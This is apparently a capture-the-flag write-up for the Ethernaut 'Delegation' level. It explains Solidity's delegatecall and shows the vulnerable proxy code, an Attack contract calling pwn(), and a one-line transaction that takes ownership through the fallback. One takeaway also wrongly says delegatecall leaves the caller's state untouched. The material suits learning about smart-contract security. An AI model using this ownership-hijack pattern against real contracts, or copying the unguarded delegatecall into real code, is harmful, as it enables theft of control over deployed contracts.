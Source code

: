 # DELEGATION: 
## 🔥 What is delegatecall in Solidity?
delegatecall is a low-level function in Solidity that allows a contract (the caller) to execute code from another contract (the delegate) while retaining the caller's context.<br />
This means that the state of the caller contract is modified, not the delegate's, and the msg.sender, msg.value, and other context values are preserved from the calling contract.
. <br />
So think of it like this:
- 🔁 “Hey contract B, I’m contract A — can you run your function for me using my own storage and sender info?”

## It is commonly used to:
- Delegate operations to on-chain libraries.
- Share common logic between multiple contracts.
- Save gas by avoiding code repetition. <br />
However, it also introduces potential security risks, such as storage collisions, reentrancy vulnerabilities, and unintended behavior if not carefully implemented.

# Key Terms and Concepts
## delegatecall:
A low-level function that delegates execution from the caller contract to a target contract.
Retains the caller contract's storage, context (msg.sender, msg.value), and state while executing the delegate's code.
## Caller Contract:
 - The contract that initiates the delegatecall and whose state is affected by the call.
## Delegate Contract:
 - The contract whose code is executed via delegatecall. Its storage is not modified.
## Storage Context:
 - Refers to the state variables of the caller contract that are affected during the delegatecall.
## Function Selector (Method ID):
 - The first 4 bytes of the keccak256 hash of a function signature. It’s used in low-level calls like delegatecall to identify which function to invoke.
## Fallback Function:
 - A special function in Solidity that is executed when a contract is called with data that doesn’t match any function signature. It can be used with delegatecall for dynamic delegation.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Delegate {
    address public owner;

    constructor(address _owner) {
        owner = _owner;
    }

    function pwn() public {
        owner = msg.sender;
    }
}

contract Delegation {
    address public owner;
    Delegate delegate;

    constructor(address _delegateAddress) {
        delegate = Delegate(_delegateAddress);
        owner = msg.sender;
    }

    fallback() external {
        (bool result,) = address(delegate).delegatecall(msg.data);
        if (result) {
            this;
        }
    }
}

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Attack { //attacker contract
    function attack(address target) public {
        // target is the VictimProxy address
        (bool success, ) = target.call(
            abi.encodeWithSignature("pwn()")
        );
        require(success, "Attack failed");
    }
}
```
# Solution_2:
```web3
await contract.sendTransaction({ data: "0xdd365b8b", from:player })
```
## Key Takeaways
How delegatecall Works:
- It executes code from the delegate contract but retains the caller's storage.
- This allows the caller to delegate logic without affecting its own state or exposing its storage to the delegate contract.
## Use Cases:
- On-chain libraries: You can use a common library to handle repetitive logic across contracts without duplicating code.
## Gas optimization:
- Instead of duplicating functions in each contract, delegate to a central contract, saving gas in the long term.
## Risks and Exploits:
- Storage Collisions: The storage layout of both the caller and delegate contract must match. Mismatches can lead to overwriting or corrupting state.
- Reentrancy Attacks: A delegate contract could call back into the caller, opening up possibilities for reentrancy attacks.
- Access Control Issues: Without proper checks, malicious actors might exploit delegate calls to perform unauthorized actions.
## Mitigating Risks:
- Ensure that the storage layouts of the caller and delegate contract do not conflict.
- Implement strong access control in delegate contracts to prevent unauthorized execution.
- Thoroughly test and audit delegate contracts, especially when dealing with external calls.
## Method IDs:
- Function selectors (method IDs) are derived from function signatures and are used to identify which function to invoke during a call, including delegatecall.
## Fallback Methods:
- Fallback functions are useful for handling dynamic or unknown calls, and they can be used in conjunction with delegatecall to forward execution to another contract.

# Summary of Risks and Mitigation
## Risks:
Storage layout mismatches, unauthorized access, and reentrancy attacks.<br />
## Mitigation:
Careful management of storage, strict access control, and comprehensive testing and auditing.<br />
By understanding these concepts and carefully designing contracts that use delegatecall, developers can leverage this powerful feature while minimizing the associated risks.







